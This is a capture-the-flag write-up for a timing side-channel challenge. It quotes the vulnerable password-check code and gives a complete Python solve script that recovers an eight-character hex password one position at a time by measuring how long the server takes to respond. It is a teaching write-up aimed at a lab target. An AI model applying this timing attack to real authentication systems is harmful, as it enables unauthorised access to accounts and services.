



# Time will tell
## Challenge Statement:
Author: @aenygma

A side channel timing attack.  

Figure out the password in 90 seconds before connection terminates.  

The password is dynamic and changes every connection session.  
  
**NOTE, the password is eight characters long and will be hexadecimal.**

**Note**: This challenge was accompanied with a per-user instance

Attachment: [app.py](app.py)

## Solution:
Oh this was a good one. I mean they did tell it is side channel timing attack right there. But still we can have fun. We are given a python script [app.py](app.py). It is not a very big script, so if you want to go through it entirely you are free to do that, but here is the gist of the script.

```python
def generate_password() -> str:
    tmp = secrets.token_hex(PASSWORD_LEN).lower()
    # with open("dump", 'w') as fh:
    #     fh.write(tmp)
    return tmp
```

This function generates the password that we need to find. It uses secrets module. So no pseudo random passwords. The password will be 8 characters long compromising hex characters as the challenge description tells us.

Now the big guns of the script:

```python
def do_heavy_compute() -> None:
    time.sleep(SIMULATE_COMPUTE_TIME)

def check_guess(guess, realdeal) -> bool:
    if len(guess) != len(realdeal):
        return False
    do_heavy_compute()
    for idx in range(len(guess)):
        if guess[idx] == realdeal[idx]:
            do_heavy_compute()
        else:
            return False
    return True
```
We have a function `do_heavy_compute` that just sleeps for 0.1 second. It is made use by the `check_guess` function below that. Now this is where the base of exploit is. We can draw a number of points from here:

1. If the length of our guess isn't equal to the length of the `realdeal` (the password to guess), it just exits right away.
2. If both have the same length, then the guesses are iterated with each index. So for every right character we guess from the start, the more number of times `do_heavy_compute` is called.  
3. If we guess a wrong character in an index the function just returns.

So in summary, if our guess and the password is off same length, then the function or the program will sleep more with as many number of right guesses we have from the left.

One can think that it's just 8 hexadecimal characters. So 16**8 = 4294967296. All we have is 90 seconds. So no, brute force is not an option.

What we can do is, we can guess 8 character passwords with the varying the leftmost character in the password. One of those guesses must take longer than the others to return. So if we record our timings, the character with most delay must be the valid character in that index. Then we can move the next one in the right. Moving right and right, the program will take longer periods of delay if we are building the right password.

I then spun up the instance just to see how the service is. It was a netcat connection. 



So we got some text, a prompt and incorrect messages. In 90 seconds, I don't really think it is possible to type in 128 guesses (16 * 8) and time it as well. Of course, python script to the rescue. I put together [solve.py](solve.py) 
to read from the socket and send the guesses and record the timings in a list.

```python
import time
import socket
import sys
import select

chars = [0]*8
seek = 0
timings = []

def getNext() -> str:
    global seek
    global timings
    if seek == 8:
        print("Password should have been obtained")
        exit(0)
    if chars[seek] != 16:
        nextstr = ""
        for i in chars:
            nextstr += hex(i)[2]
        chars[seek] += 1
        return nextstr
    else:
        selected = timings.index(max(timings))
        print("Selected: {}".format(selected))
        chars[seek] = selected
        timings.clear()
        seek += 1
        return getNext()

def readFromSocket(soc: socket.socket) -> str:
    readBuffer, _, _ = select.select([soc], [], [], 0)
    if readBuffer:
        fromserver = soc.recv(2048).decode()
        return fromserver
    else:
        return ""

if __name__=="__main__":
    nextpass=""
    cSoc = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    cSoc.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR,1)
    cSoc.connect(('challenge.ctf.games',int(sys.argv[1])))
    start = time.time()
    while True:
        inLine = readFromSocket(cSoc)
        if inLine == "":
            continue
        diff = time.time()-start
        timings.append(diff)
        print("    Timing: {}, value: {}, Server: {}".format(diff, nextpass, inLine),end="")
        nextpass = getNext()
        cSoc.send((nextpass+'\n').encode())
        start = time.time()
```

The code is mostly self explanatory, but let me give a quick run down. Function `getNext` generates the guesses based on the value of variable `seek` starting from 0 to 7, hence mimicking moving left to right. I used a list of integers to house the guesses as we are working with hex numbers. On each complete iteration on a particular seek, it goes from 0 to f(15) and sets the character to the highest timing taken to come back. Function `readFromSocket` is just one of my arsenal functions to deal with the blocking thing of `recv` function. Then there is `main` that puts everything together.

All that's left now is to execute the script, sit back and look out for flag. Since this operation is over the network, it might take more than a couple tries to get things right. Like for instance, in the below execution the timing of the return remains as `0.3` seconds on average across different seek positions. So it is safe to conclude that the right character was not set. 



But with a few tries, the timings across the seek positions will vary reliably indicating right guesses. If you are patient enough to try multiple times, it should work. Like the one below:



Overall, this was a good challenge. I had fun will putting together the script. And it kind of mimics certain real-world scenarios based on timing based attacks. So yeah, I liked this one.

